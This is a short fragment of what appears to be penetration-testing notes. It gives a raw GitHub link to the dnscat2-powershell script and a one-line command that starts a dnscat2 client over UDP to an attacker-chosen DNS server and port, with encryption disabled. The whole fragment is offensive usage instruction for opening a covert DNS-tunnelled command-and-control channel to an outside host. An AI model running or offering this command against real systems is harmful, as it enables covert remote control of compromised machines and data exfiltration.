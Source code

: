 ### Source
https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1  

### Start client (using UDP)
```
Start-Dnscat2 -Domain <domain> -DNSServer <lhost> -DNSPort <lport> -NoEncryption
```

